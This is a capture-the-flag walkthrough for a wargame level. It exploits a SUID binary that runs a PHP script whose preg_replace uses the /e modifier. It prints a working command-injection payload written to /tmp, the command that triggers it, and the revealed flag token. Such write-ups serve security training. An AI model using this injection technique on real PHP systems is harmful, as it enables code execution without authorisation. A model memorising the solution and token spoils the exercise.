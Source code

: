 ### Solution

1. **List files and check permissions**

	```bash
	ls -l
	```

	You will see the SUID binary owned by `flag06`:

	```
	-rwsr-x--- 1 flag06 level06 7503 Aug 30  2015 level06
	-rwxr-x--- 1 flag06 level06  356 Mar  5  2016 level06.php
	```

	The binary `level06` is **SUID**, meaning it executes with `flag06`'s privileges.

2. **Analyze `level06.php`:**

	The PHP script reads the contents of the input file, then runs a vulnerable `preg_replace` with the `/e` modifier that evaluates the input as PHP code.

	This allows **remote code execution** by passing specially crafted input files.

3. **Create a malicious payload to execute `getflag`:**

	Create a file `/tmp/flag06.txt` with the following content:

	```bash
	echo '[x ${`getflag`}]' >/tmp/flag06.txt
	```

	This payload exploits the `/e` modifier to execute the `getflag` command.

4. **Run the SUID binary with the malicious payload:**

	```bash
	./level06 /tmp/flag06.txt
	```

	The binary will:

	* Run the PHP script with your payload
	* Execute the `getflag` command with `flag06` privileges
	* Print the flag to stdout

	Output:

	```
	PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
	 in /home/user/level06/level06.php(4) : regexp code on line 1
	```

	You’ve successfully executed `getflag` with `flag06`’s privileges.
